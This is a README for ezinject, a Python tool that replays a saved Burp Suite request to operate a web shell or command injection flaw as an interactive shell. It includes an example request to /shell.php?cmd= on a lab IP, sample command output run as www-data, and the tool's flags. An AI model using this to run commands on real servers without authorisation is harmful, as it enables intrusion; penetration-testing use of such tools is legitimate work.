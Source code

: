 # ezinject
Save requests from Burp Suite and interact with web shells or command injection on web applications the easy way.

### Example
```
$ cat test.req
GET /shell.php?cmd=<EZINJECT> HTTP/1.1
Host: 192.168.56.6:9000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/4.0 (compatible; Mozilla/5.0 ; Linux i686)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9,en;q=0.8
Connection: close

$ python3 ezinject.py -r test.req -os linux -http
ez >  id                     
uid=33(www-data) gid=33(www-data) groups=33(www-data)

ez >  ls                     
index.html
index.nginx-debian.html
shell.php

ez >
```
### Command line flags
```
$ python3 ezinject.py -h
usage: ezinject.py [-h] [-v] [-http] -r REQUESTFILE -os OS [-c COMMAND]
                   [-p PATTERN] [-first]

Interact with web shells or command injection on web applications.

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Display server reponse headers
  -http                 Force connecting over HTTPS
  -r REQUESTFILE, --request REQUESTFILE
                        Burp Request file
  -os OS, --operating-system OS
                        Target operating system (Windows|Linux)
  -c COMMAND, --command COMMAND
                        Command to replace in the burp file, ensure this is
                        unique in the request (defaults to <EZINJECT>)
  -p PATTERN, --pattern PATTERN
                        Specify a pattern that is located either side of
                        command output to extract eg: --pattern ZZZ (this will
                        filter ZZZ<command output>ZZZ)
  -first                If command output is appended, this will print the
                        first occurence. (default: print the last occurence)
```

### Features
- Tab completion 
- (Ctrl-l or "clear" or "cls") clears the screen
- History
- Type "EzHelp" for Powercatch help commands (command not sent over the network)

### TODO
- Implement File Upload and Download functionality (Performed in segments via base64)
- Flag that will auto generate and filter string for command injection